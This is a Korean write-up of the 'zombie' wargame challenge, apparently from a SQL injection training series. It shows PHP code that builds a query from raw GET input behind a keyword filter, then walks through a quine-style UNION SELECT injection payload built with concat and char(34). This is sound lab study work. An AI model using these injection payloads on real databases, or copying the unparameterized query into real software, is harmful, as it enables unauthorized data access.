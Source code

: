 # zombie

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `rollup join ace @`등을 필터링 하고있다.   
&rarr; ace는 replace 함수를 필터링하기 위함인것 같다.   
- GET 파라미터 pw와 sql 쿼리 실행 결과의 pw가 동일하다면, 문제가 해결된다.   


## 3. Solution
이전 문제 <a href="./../ouroboros/ouroboros.md">ouroboros</a>와 같은 quine 문제이다.   
다른 점이라면 `replace`함수를 더이상 쓸 수 없다는 점이다.    

대안으로 `concat`함수와 서브쿼리 그리고 alias가 있다.   

```sql
' union select a from (select 'hihi' as a)as a%23
```
위 쿼리의 결과로 hihi가 출력되는 것을 볼 수 있다.   


이제, concat함수를 이용하면 메인코드 부분과 서브쿼리 부분을 모두 출력할 수 있다.   
```sql
' union select concat(a,a) from (select "' union select conct(a,a) from (select " as a)as a%23
```
결과는 다음과 같다.   
```sql
Pw : ' union select conct(a,a) from (select ' union select conct(a,a) from (select
```   


마지막으로 두 가지 문제가 있다.    

1. double qoutes 출력에 관한 문제
>    concat 함수 안에 `char(34)`을 넣어줌으로써 해결할 수 있다.   
```sql
' union select concat(a,char(34),a,char(34)) from (select "' union select conct(a,char(34),a,char(34)) from (select " as a)as a%23
```
>    결과는 다음과 같다.   
```sql
Pw : ' union select conct(a,char(34),a,char(34)) from (select "' union select conct(a,char(34),a,char(34)) from (select "
```

2. 입력한 값의 마지막 부분, ` as a)as a%23`에 관한 문제
> 간단하게 concat 함수 안에 추가해 주면 된다.    
```sql
' union select concat(a,char(34),a,char(34),' as a)as a%23') from (select "' union select concat(a,char(34),a,char(34),' as a)as a%23') from (select " as a)as a%23
```   
>    결과는 다음과 같으며, 문제가 해결되었다.   
```sql
Pw : ' union select concat(a,char(34),a,char(34),' as a)as a#') from (select "' union select concat(a,char(34),a,char(34),' as a)as a#') from (select " as a)as a#
ZOMBIE Clear!
```